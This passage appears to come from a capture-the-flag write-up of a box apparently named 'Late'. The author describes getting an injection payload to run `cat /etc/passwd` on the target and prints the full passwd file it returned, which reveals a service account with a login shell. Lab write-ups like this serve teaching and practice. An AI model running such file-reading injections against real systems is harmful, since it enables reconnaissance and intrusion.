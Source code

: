 ### /etc/passwd

![the payload that let me get etc password](/assets/img/late_19_passwd.png)

It took me another 5 tries of adjusting spaces to get the payload to work with my next command `cat /etc/passwd`.

```
<p>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
svc_acc:x:1000:1000:Service Account:/home/svc_acc:/bin/bash
rtkit:x:111:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
avahi:x:113:116:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:114:117:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
saned:x:115:119::/var/lib/saned:/usr/sbin/nologin
colord:x:116:120:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
pulse:x:117:121:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
geoclue:x:118:123::/var/lib/geoclue:/usr/sbin/nologin
smmta:x:119:124:Mail Transfer Agent,,,:/var/lib/sendmail:/usr/sbin/nologin
smmsp:x:120:125:Mail Submission Program,,,:/var/lib/sendmail:/usr/sbin/nologin

</p>
```

